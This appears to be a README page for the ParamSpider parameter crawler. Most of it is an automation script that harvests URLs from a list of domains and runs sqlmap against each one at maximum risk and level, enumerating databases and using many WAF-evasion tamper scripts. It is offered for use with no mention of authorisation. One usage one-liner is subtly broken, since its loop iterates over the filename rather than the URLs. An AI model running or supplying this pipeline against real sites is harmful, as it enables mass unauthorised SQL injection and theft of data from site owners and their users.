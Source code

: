 # ParamSpider

## Setup

```
$ git clone https://github.com/devanshbatham/ParamSpider && \
cd ParamSpider && pip3 install -r requirements.txt
```

## Usage

`$ paramspider -d website.com -e jpg,jpeg,gif,css,tif,tiff,png,ttf,woff,woff2,ico,pdf,svg,txt -o urls.txt`

`$ paramspider -d website.com -o output.txt && for URL in output.txt; do (sqlmap -u "${URL}" --risk=3 --level=5 --random-agent --batch); done`

* **Automated script to exploit for parameters for sql injection vulnerabilities**

`$ cat sqli-automation.sh`

```sh
#!/bin/sh  
  
if [ $# -lt 1 ]  
then  
    echo "Usage: $0 urls.txt"  
    exit 1  
fi  
  
mkdir output-sqli  
  
while read -r domain  
do  
        ./paramspider.py -d $domain -e jpg,jpeg,gif,css,tif,tiff,png,ttf,woff,woff2,ico,pdf,svg,txt,js,htm,html \  
        -o output-sqli/"${domain}"-urls.txt  
done < $1  
  
sleep 3  
  
for file in $(ls output-sqli/*.txt)  
do  
        while read -r line  
        do  
                sqlmap -u $line --dbs --risk=3 --level=5 --random-agent --batch --tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes  
        done < $file  
done
```

## References

* [ParamSpider](https://github.com/devanshbatham/ParamSpider)